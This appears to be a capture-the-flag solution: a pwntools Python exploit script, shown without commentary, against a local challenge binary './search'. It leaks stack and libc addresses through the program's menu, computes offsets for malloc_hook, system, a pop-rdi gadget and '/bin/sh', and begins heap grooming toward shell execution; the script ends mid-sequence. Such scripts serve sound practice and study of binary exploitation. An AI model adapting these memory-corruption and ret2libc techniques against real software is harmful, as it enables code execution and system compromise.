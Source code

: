 ```python
from pwn import *

t = process('./search')

r = lambda w: t.recvuntil(str(w))
s = lambda z: t.sendline(str(z))

def sw(size,a):
	r("3: Quit")
	s("1")
	r(":")
	s(str(size))
	r(":")
	s(str(a))

def sen(size,a):
	r("3: Quit")
	s("2")
	r(":")
	s(str(size))
	r(":")
	s(str(a))

r("3: Quit")
s("a"*48)
r("number")
s("a"*48)
r("a"*48)
stack = u64(t.recv(6).ljust(8,'\x00'))
log.success("stack ==> " + hex(stack))
target = stack + 0x50 # -6

r("number")
s("2")
r(":")
s(0x100)
r(":")
s("a"*0xf0 + " b " + "c"*(0x100-0xf3))

sw(1,"b")
r("?")
s("y")
sw(1,"\x00")

r("Found 256: ")
libc = u64(t.recv(6).ljust(8,'\x00')) - 0x3c4b78
log.success("libc ==> " + hex(libc))
malloc_hook = libc + 0x3c4b10
system = libc + 0x45390
prdi = 0x0000000000400e23
binsh = libc + 0x18cd57
r("?")
s("n")

sen(0x100,"a"*0x100)
sen(0x10,"y"*0x10)
sen(0x30,"d"*0x20 + " b " + "c"*(0x30-0x23))
sen(0x30,"d"*0x20 + " b " + "c"*(0x30-0x23))
sen(0x30,"d"*0x20 + " b " + "c"*(0x30-0x23))

sw(1,"b")
r("?")
s("y")
```